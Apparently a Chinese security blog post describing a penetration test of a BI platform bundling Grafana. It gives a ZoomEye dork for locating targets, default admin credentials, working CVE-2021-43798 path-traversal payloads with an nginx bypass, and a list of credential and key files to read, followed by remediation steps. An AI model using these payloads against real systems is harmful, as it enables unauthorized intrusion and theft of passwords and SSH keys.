 #  某易BI平台渗透之旅

天明  [ 潇湘信安 ](javascript:void\(0\);)

**潇湘信安** ![]()

微信号 xxxasec

功能介绍 一个不会编程、挖SRC、代码审计的安全爱好者，主要分享一些安全经验、渗透思路、奇淫技巧与知识总结。

____

___发表于_

收录于合集

#实战案例 121 个

#渗透技巧 29 个

**声明：**
该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。  
---  
  
  

 **0x01 前言**

这篇文章由"潇湘信安技术交流群"@天明师傅投稿，记录的是他在公司某个安服项目中碰到了这个BI平台，机缘巧合之下发现了这个通用漏洞，特意投稿分享下经验。  

  

 **0x02  渗透之旅**

刚开始采用awvs、afrog和nuclei进行全量的漏洞扫描时未有任何发现，后面尝试目录探测时有了新的发现。  

  

####  **峰回路转之dirsearch的救赎**

  *   *   *   *   *   * 

    
    
     [09:42:33] 200 -   32KB - /monitoring/                                      [09:42:33] 200 -   32KB - /monitor/[09:42:33] 200 -   32KB - /monitoring[09:42:34] 200 -   32KB - /monitor   
    [09:41:39] 200 -  751B  - /callback

  

/monitoring/、/monitor/这俩路径绝对会触发302跳转，callback则是随机，可能触发跳转。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084031.png)  

这个就是今天的主角。

  

正常请求BI平台：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084042.png)  

zoomeye dork

  * 

    
    
    iconhash:"dfbaaf8af7911cfb7eb068d8b19f6799"

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084043.png)  

影响范围：仅在V 7.20版本测试成功。

  

版本号可以根据页面当中的用户手册来判断。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084044.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084045.png)

  

####  **思路1-默认口令**

默认口令：admin
admin，不知道其他目标如何，至少我碰上的目标未修改。不过即使修改了也无伤大雅，有一个文件读取漏洞等着你，可以搞到grafana的账号密码。

  

####  **思路2-Grafana文件读取**

CVE-2021-43798这个漏洞信息的部分可自行百度了解，此处单刀直入，直接说利用细节。

  

 **最初的验证POC为：**

  * 

    
    
     /monitor/public/plugins/grafana-clock-panel/../../../../../../../../etc/passwd

  

 **此处利用应修改为：**

  * 

    
    
     /monitor/public/plugins/grafana-clock-panel/../../../../../../../../etc/passwd

  

 **注：**
一般情况下就成了，如果对方使用了nginx/apache反代，中间件的URI_normalization机制导致URL被标准化。此时原有payload就会失效，服务端会爆400错误。如下图所示：

  *   *   *   *   *   *   *   *   *   * 

    
    
    # proxy_grafana.conf  
    server {    listen         8081;    server_name    127.0.0.1;    charset        utf-8;    location / {        proxy_pass http://192.168.1.100:3000;    }}

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084046.png)  

此时可采用bypass 400的payload进行绕过，payload为：

  * 

    
    
    /monitor/public/plugins/text/#/../../../../../../../../../../etc/passwd

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084047.png)  

深入利用

  *   * 

    
    
    /etc/grafana/grafana.ini         #grafana控制台的管理员明文密码/var/lib/grafana/grafana.db      #控制台其他账户

  

/etc/grafana/grafana.ini

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084049.png)  

linux文件遍历，此处只举出比较重要的，更全面的可以参考Web-Fuzzing-Box的Linux_File.txt

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    /conf/defaults.ini/etc/grafana/grafana.ini/etc/passwd/etc/shadow/home/grafana/.bash_history/home/grafana/.ssh/id_rsa/root/.bash_history/root/.ssh/id_rsa/usr/local/etc/grafana/grafana.ini/var/lib/grafana/grafana.db/proc/net/fib_trie/proc/net/tcp/proc/self/cmdline

  

关于nginx proxy error 400相关文章可参考，这里我用的是第二篇文章里的一个payload。

  *   * 

    
    
    https://articles.zsxq.com/id_baeb9hmiroq5.html    https://blog.riskivy.com/grafana-任意文件读取漏洞分析与汇总cve-2021-43798/#_Nginx_400

  

####  **关于CVE-2021-43798的修复**

  1. 升级到安全版本，即版本号>8.3.0。
  2. 临时防御：修改proxy_grafana的配置如下所示：

 **Tips** ：重点是proxy_pass的端口号后一定要加上`/`

  *   *   *   *   *   *   *   *   * 

    
    
    # proxy_grafana.confserver {listen         8081;server_name    127.0.0.1;charset        utf-8;location / {proxy_pass http://192.168.1.100:3000/;    }}

  

 **0x03 参考文章**

  *   * 

    
    
     https://github.com/jas502n/Grafana-CVE-2021-43798https://blog.riskivy.com/grafana-任意文件读取漏洞分析与汇总cve-2021-43798/

  

* * *

 **关 注 有 礼**

  
  
关注公众号回复“9527”可以领取一套HTB靶场文档和视频，“1208”个人常用高效爆破字典，“0221”2020年酒仙桥文章打包，“2191”潇湘信安文章打包，“1212”杀软对比源码+数据源，“0421”Windows提权工具包。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084050.png)
还在等什么？赶紧点击下方名片关注学习吧！![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084050.png)

* * *

 **推 荐 阅 读**

  
  
  
[![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084052.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247491360&idx=1&sn=e4c3d356b45d7fe821dc2b645f30a595&chksm=cfa6bb33f8d132259884026238db7b79f33da3f3fff2f90a87e4a447118a1be8c4e948031d8f&scene=21#wechat_redirect)[![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084053.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)[![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084054.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

* * *

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084055.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

